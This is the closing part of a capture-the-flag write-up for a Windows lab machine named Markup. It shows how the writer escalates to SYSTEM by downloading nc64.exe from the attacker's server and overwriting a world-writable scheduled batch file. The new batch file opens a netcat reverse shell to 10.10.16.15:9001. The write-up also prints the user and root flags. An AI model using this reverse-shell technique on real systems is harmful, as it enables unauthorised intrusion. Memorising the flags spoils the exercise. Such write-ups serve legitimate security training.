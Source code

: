 > wevtutil.exe

#### Submit user flag

```sh
daniel@MARKUP C:\Users\daniel\Desktop>type user.txt                              
032d2fc8952a8c24e39c8f0ee9918ef7 
```

#### Submit root flag

```sh
daniel@MARKUP C:\Log-Management>icacls job.bat                                   
job.bat BUILTIN\Users:(F)                                                        
        NT AUTHORITY\SYSTEM:(I)(F)                                               
        BUILTIN\Administrators:(I)(F)                                            
        BUILTIN\Users:(I)(RX)                                                    
                                                                                 
Successfully processed 1 files; Failed processing 0 files
```

We have full access to the file `BUILTIN\Users:(F)`. So we can transwer `nc64.exe` file and the override `job.bat`. First we start python server in the directory, where `nc64.exe` is located:

```sh
python3 -m http.server 80 
```

And then get it from our shell:

```sh
daniel@MARKUP C:\Log-Management>powershell                                       
Windows PowerShell                                                               
Copyright (C) Microsoft Corporation. All rights reserved.                        
                                                                                 
PS C:\Log-Management> wget http://10.10.16.15:80/nc64.exe -outfile nc64.exe
```

Since we have full control over the `job.bat` script, we will modify it's content by running the following command: 

```sh
daniel@MARKUP C:\Log-Management>echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.16.15 9001 > C:\Log-Management\job.bat 
```

We turn on the netcat listener and wait for the script to execute:

```sh
$ nc -l 9001
```

```sh
$ nc -l 9001
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
f574a3e7650cebd8c39784299cb570f8
```

## Final Flag

> `user`: 032d2fc8952a8c24e39c8f0ee9918ef7
> `root`: f574a3e7650cebd8c39784299cb570f8

*Created by [bu19akov](https://github.com/bu19akov)*